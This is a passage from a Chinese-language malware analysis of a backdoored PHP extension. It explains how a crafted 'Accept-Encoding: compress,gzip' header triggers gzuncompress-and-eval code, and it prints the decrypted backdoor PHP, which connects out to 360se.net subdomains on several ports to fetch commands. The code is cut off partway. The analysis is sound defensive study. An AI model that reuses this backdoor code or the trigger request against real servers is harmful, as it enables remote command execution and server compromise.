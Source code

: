 第二部分，反向连接：判断ACCEPT_ENCODING如果等于compress,gzip，通过关键部分@eval(gzuncompress('%s'));可以看到拼接了一段恶意代码，然后调用gzuncompress方法执行解密。

构造HTTP头，把Accept-Encoding改成Accept-Encoding: compress,gzip可以触发第二部分。

```bash
GET /index.php HTTP/1.1
Host: www.baidu.com
…..
Accept-Encoding:compress,gzip
….

```

![2.jpg](media/202009/2d28753397aa4162afeecc488fe3cffd.jpg)

图2：第1部分流程判断代码

![3.jpg](media/202009/b21318df21724b5390f2134e0cf74219.jpg)

图3：第2部分流程判断代码

这一部分有两处会执行zend_eval_strings函数代码的位置。分别是从1000D66C到1000E5C4的代码解密：

```
@ini_set("display_errors","0");
error_reporting(0);
function tcpGet($sendMsg = '', $ip = '360se.net', $port = '20123'){
    $result = "";
  $handle = stream_socket_client("tcp://{$ip}:{$port}", $errno, $errstr,10); 
  if( !$handle ){
    $handle = fsockopen($ip, intval($port), $errno, $errstr, 5);
    if( !$handle ){
        return "err";
    }
  }
  fwrite($handle, $sendMsg."\n");
    while(!feof($handle)){
        stream_set_timeout($handle, 2);
        $result .= fread($handle, 1024);
        $info = stream_get_meta_data($handle);
        if ($info['timed_out']) {
          break;
        }
     }
  fclose($handle); 
  return $result; 
}

$ds = array("www","bbs","cms","down","up","file","ftp");
$ps = array("20123","40125","8080","80","53");
$n = false;
do {
    $n = false;
    foreach ($ds as $d){
        $b = false;
        foreach ($ps as $p){
            $result = tcpGet($i,$d.".360se.net",$p); 
            if ($result != "err"){
                $b =true;
                break;
            }
        }
        if ($b)break;
    }
    $info = explode("<^>",$result);
    if (count($info)==4){
```